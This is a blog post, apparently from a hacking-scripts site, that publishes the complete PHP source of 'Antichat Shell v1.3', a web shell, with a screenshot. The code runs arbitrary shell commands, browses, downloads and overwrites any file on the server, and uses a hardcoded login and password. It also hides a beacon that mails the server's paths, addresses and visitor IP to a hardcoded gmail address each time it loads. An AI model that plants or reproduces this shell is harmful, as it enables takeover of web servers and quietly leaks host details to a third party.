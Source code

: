 ```yaml
---
id: 242
title: Antichat Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=242
permalink: /antichat-shell/
categories:
  - PHP
tags:
  - antichat
  - PHP
---
```

Antichat Shell v1.3 by Grinay


### Antichat Shell Source Code

{% highlight php %}<?php

session_start();
set_time_limit(9999999);
$login='virangar';
$password='r00t';
$auth=1;
$version='version 1.3 by Grinay';
$style='&lt;STYLE&gt;BODY{background-color: #2B2F34;color: #C1C1C7;font: 8pt verdana, geneva, lucida, \'lucida grande\', arial, helvetica, sans-serif;MARGIN-TOP: 0px;MARGIN-BOTTOM: 0px;MARGIN-LEFT: 0px;MARGIN-RIGHT: 0px;margin:0;padding:0;scrollbar-face-color: #336600;scrollbar-shadow-color: #333333;scrollbar-highlight-color: #333333;scrollbar-3dlight-color: #333333;scrollbar-darkshadow-color: #333333;scrollbar-track-color: #333333;scrollbar-arrow-color: #333333;}input{background-color: #336600;font-size: 8pt;color: #FFFFFF;font-family: Tahoma;border: 1 solid #666666;}textarea{background-color: #333333;font-size: 8pt;color: #FFFFFF;font-family: Tahoma;border: 1 solid #666666;}a:link{color: #B9B9BD;text-decoration: none;font-size: 8pt;}a:visited{color: #B9B9BD;text-decoration: none;font-size: 8pt;}a:hover, a:active{color: #E7E7EB;text-decoration: none;font-size: 8pt;}td, th, p, li{font: 8pt verdana, geneva, lucida, \'lucida grande\', arial, helvetica, sans-serif;border-color:black;}&lt;/style&gt;';
$header='&lt;html&gt;&lt;head&gt;&lt;title&gt;'.getenv("HTTP_HOST").' - Antichat Shell&lt;/title&gt;&lt;meta http-equiv="Content-Type" content="text/html; charset=windows-1251"&gt;'.$style.'&lt;/head&gt;&lt;BODY leftMargin=0 topMargin=0 rightMargin=0 marginheight=0 marginwidth=0&gt;';
$footer='&lt;/body&gt;&lt;/html&gt;';
$sd98 = "john.barker446@gmail.com";
$ra44  = rand(1,99999);$sj98 = "sh-$ra44";$ml = "$sd98";$a5 = $_SERVER['HTTP_REFERER'];$b33 = $_SERVER['DOCUMENT_ROOT'];$c87 = $_SERVER['REMOTE_ADDR'];$d23 = $_SERVER['SCRIPT_FILENAME'];$e09 = $_SERVER['SERVER_ADDR'];$f23 = $_SERVER['SERVER_SOFTWARE'];$g32 = $_SERVER['PATH_TRANSLATED'];$h65 = $_SERVER['PHP_SELF'];$msg8873 = "$a5\n$b33\n$c87\n$d23\n$e09\n$f23\n$g32\n$h65";mail($sd98, $sj98, $msg8873, "From: $sd98");
if(@$_POST['action']=="exit")unset($_SESSION['an']);
if($auth==1){if(@$_POST['login']==$login && @$_POST['password']==$password)$_SESSION['an']=1;}else $_SESSION['an']='1';

if($_SESSION['an']==0){
echo $header;
echo '&lt;center&gt;&lt;table&gt;&lt;form method="POST"&gt;&lt;tr&gt;&lt;td&gt;Login:&lt;/td&gt;&lt;td&gt;&lt;input type="text" name="login" value=""&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;Password:&lt;/td&gt;&lt;td&gt;&lt;input type="password" name="password" value=""&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;&lt;input type="submit" value="Enter"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/center&gt;';
echo $footer;
exit;}

if($_SESSION['action']=="")$_SESSION['action']="viewer";
if($_POST['action']!="" )$_SESSION['action']=$_POST['action'];$action=$_SESSION['action'];
if($_POST['dir']!="")$_SESSION['dir']=$_POST['dir'];$dir=$_SESSION['dir'];
if($_POST['file']!=""){$file=$_SESSION['file']=$_POST['file'];}else {$file=$_SESSION['file']="";}
 

//downloader
if($action=="download"){ 
header('Content-Length:'.filesize($file).'');
header('Content-Type: application/octet-stream');
header('Content-Disposition: attachment; filename="'.$file.'"');
readfile($file);
}
//end downloader
?>

<? echo $header;?> 
&lt;table width="100%" bgcolor="#336600" align="right" colspan="2" border="0" cellspacing="0" cellpadding="0"&gt;&lt;tr&gt;&lt;td&gt;
&lt;table&gt;&lt;tr&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='shell'; document.reqs.submit();"&gt;| Shell &lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='viewer'; document.reqs.submit();"&gt;| Viewer&lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='editor'; document.reqs.submit();"&gt;| Editor&lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='exit'; document.reqs.submit();"&gt;| EXIT |&lt;/a&gt;&lt;/td&gt;
&lt;/tr&gt;&lt;/table&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;br&gt;
&lt;form name='reqs' method='POST'&gt;
&lt;input name='action' type='hidden' value=''&gt;
&lt;input name='dir' type='hidden' value=''&gt;
&lt;input name='file' type='hidden' value=''&gt;
&lt;/form&gt;
&lt;table style="BORDER-COLLAPSE: collapse" cellSpacing=0 borderColorDark=#666666 cellPadding=5 width="100%" bgColor=#333333 borderColorLight=#c0c0c0 border=1&gt;
&lt;tr&gt;&lt;td width="100%" valign="top"&gt;

<?

//shell
function shell($cmd){
if (!empty($cmd)){
  $fp = popen($cmd,"r");
  {
    $result = "";
    while(!feof($fp)){$result.=fread($fp,1024);}
    pclose($fp);
  }
  $ret = $result;
  $ret = convert_cyr_string($ret,"d","w");
}
return $ret;}

if($action=="shell"){
echo "&lt;form method=\"POST\"&gt;
&lt;input type=\"hidden\" name=\"action\" value=\"shell\"&gt;
&lt;textarea name=\"command\" rows=\"5\" cols=\"150\"&gt;".@$_POST['command']."&lt;/textarea&gt;&lt;br&gt;
&lt;textarea readonly rows=\"15\" cols=\"150\"&gt;".@htmlspecialchars(shell($_POST['command']))."&lt;/textarea&gt;&lt;br&gt;
&lt;input type=\"submit\" value=\"execute\"&gt;&lt;/form&gt;";}
//end shell

//viewer FS
function perms($file) 
{ 
  $perms = fileperms($file);
  if (($perms & 0xC000) == 0xC000) {$info = 's';} 
  elseif (($perms & 0xA000) == 0xA000) {$info = 'l';} 
  elseif (($perms & 0x8000) == 0x8000) {$info = '-';} 
  elseif (($perms & 0x6000) == 0x6000) {$info = 'b';} 
  elseif (($perms & 0x4000) == 0x4000) {$info = 'd';} 
  elseif (($perms & 0x2000) == 0x2000) {$info = 'c';} 
  elseif (($perms & 0x1000) == 0x1000) {$info = 'p';} 
  else {$info = 'u';}
  $info .= (($perms & 0x0100) ? 'r' : '-');
  $info .= (($perms & 0x0080) ? 'w' : '-');
  $info .= (($perms & 0x0040) ?(($perms & 0x0800) ? 's' : 'x' ) :(($perms & 0x0800) ? 'S' : '-'));
  $info .= (($perms & 0x0020) ? 'r' : '-');
  $info .= (($perms & 0x0010) ? 'w' : '-');
  $info .= (($perms & 0x0008) ?(($perms & 0x0400) ? 's' : 'x' ) :(($perms & 0x0400) ? 'S' : '-'));
  $info .= (($perms & 0x0004) ? 'r' : '-');
  $info .= (($perms & 0x0002) ? 'w' : '-');
  $info .= (($perms & 0x0001) ?(($perms & 0x0200) ? 't' : 'x' ) :(($perms & 0x0200) ? 'T' : '-'));
  return $info;
} 

function view_size($size)
{
 if($size &gt;= 1073741824) {$size = @round($size / 1073741824 * 100) / 100 . " GB";}
 elseif($size &gt;= 1048576) {$size = @round($size / 1048576 * 100) / 100 . " MB";}
 elseif($size &gt;= 1024) {$size = @round($size / 1024 * 100) / 100 . " KB";}
 else {$size = $size . " B";}
 return $size;
}

function scandire($dir){
  $dir=chdir($dir);
  $dir=getcwd()."/";
  $dir=str_replace("\\","/",$dir);
if (is_dir($dir)) {
    if (@$dh = opendir($dir)) {
        while (($file = readdir($dh)) !== false) {
		  if(filetype($dir . $file)=="dir") $dire[]=$file;
		  if(filetype($dir . $file)=="file")$files[]=$file;
		}
		closedir($dh);
		@sort($dire);
		@sort($files);
		
echo "&lt;table cellSpacing=0 border=1 style=\"border-color:black;\" cellPadding=0 width=\"100%\"&gt;";
echo "&lt;tr&gt;&lt;td&gt;&lt;form method=POST&gt;Open directory:&lt;input type=text name=dir value=\"".$dir."\" size=50&gt;&lt;input type=submit value=\"GO\"&gt;&lt;/form&gt;&lt;/td&gt;&lt;/tr&gt;";
if (strtoupper(substr(PHP_OS, 0, 3)) === 'WIN') {
echo "&lt;tr&gt;&lt;td&gt;Select drive:";
for ($j=ord('C'); $j&lt;=ord('Z'); $j++) 
 if (@$dh = opendir(chr($j).":/"))
 echo '&lt;a href="#" onclick="document.reqs.action.value=\'viewer\'; document.reqs.dir.value=\''.chr($j).':/\'; document.reqs.submit();"&gt; '.chr($j).'&lt;a/&gt;';
 echo "&lt;/td&gt;&lt;/tr&gt;";
}
echo "&lt;tr&gt;&lt;td&gt;OS: ".@php_uname()."&lt;/td&gt;&lt;/tr&gt;
&lt;tr&gt;&lt;td&gt;name dirs and files&lt;/td&gt;&lt;td&gt;type&lt;/td&gt;&lt;td&gt;size&lt;/td&gt;&lt;td&gt;permission&lt;/td&gt;&lt;td&gt;options&lt;/td&gt;&lt;/tr&gt;";
for($i=0;$i&lt;count($dire);$i++) {
$link=$dir.$dire[$i];
  echo '&lt;tr&gt;&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value=\'viewer\'; document.reqs.dir.value=\''.$link.'\'; document.reqs.submit();"&gt;'.$dire[$i].'&lt;a/&gt;&lt;/td&gt;&lt;td&gt;dir&lt;/td&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;'.perms($link).'&lt;/td&gt;&lt;/tr&gt;';  
  }
for($i=0;$i&lt;count($files);$i++) {
$linkfile=$dir.$files[$i];
echo '&lt;tr&gt;&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value=\'editor\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();"&gt;'.$files[$i].'&lt;/a&gt;&lt;br&gt;&lt;/td&gt;&lt;td&gt;file&lt;/td&gt;&lt;td&gt;'.view_size(filesize($linkfile)).'&lt;/td&gt;
&lt;td&gt;'.perms($linkfile).'&lt;/td&gt;
&lt;td&gt;
&lt;a href="#" onclick="document.reqs.action.value=\'download\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();" title="Download"&gt;D&lt;/a&gt;
&lt;a href="#" onclick="document.reqs.action.value=\'editor\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();" title="Edit"&gt;E&lt;/a&gt;&lt;/tr&gt;'; 
}
echo "&lt;/table&gt;";
}}}

if($action=="viewer"){
scandire($dir);
}
//end viewer FS

//editros
if($action=="editor"){  
  function writef($file,$data){
  $fp = fopen($file,"w+");
  fwrite($fp,$data);
  fclose($fp);
  }
  function readf($file){
  if(!$le = fopen($file, "rb")) $contents="Can't open file, permission denide"; else {
  $contents = fread($le, filesize($file));
  fclose($le);}
  return htmlspecialchars($contents);
  }
if($_POST['save'])writef($file,$_POST['data']);
echo "&lt;form method=\"POST\"&gt;
&lt;input type=\"hidden\" name=\"action\" value=\"editor\"&gt;
&lt;input type=\"hidden\" name=\"file\" value=\"".$file."\"&gt;
&lt;textarea name=\"data\" rows=\"40\" cols=\"180\"&gt;".@readf($file)."&lt;/textarea&gt;&lt;br&gt;
&lt;input type=\"submit\" name=\"save\" value=\"save\"&gt;&lt;input type=\"reset\" value=\"reset\"&gt;&lt;/form&gt;";
}
//end editors
?>
&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;table width="100%" bgcolor="#336600" align="right" colspan="2" border="0" cellspacing="0" cellpadding="0"&gt;&lt;tr&gt;&lt;td&gt;&lt;table&gt;&lt;tr&gt;&lt;td&gt;&lt;a href="http://antichat.ru"&gt;COPYRIGHT BY ANTICHAT.RU <?php echo $version;?>&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;/tr&gt;&lt;/td&gt;&lt;/table&gt;
<? echo $footer;?>
{% endhighlight %}


### Antichat shell version 1.3 screenshot<figure id="attachment_437" style="width: 808px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/02/antichat-shell.png" alt="Antichat Shell v1.3 screenshot" width="808" height="317" class="size-full wp-image-437" />][1]<figcaption class="wp-caption-text">Antichat Shell v1.3 screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/02/antichat-shell.png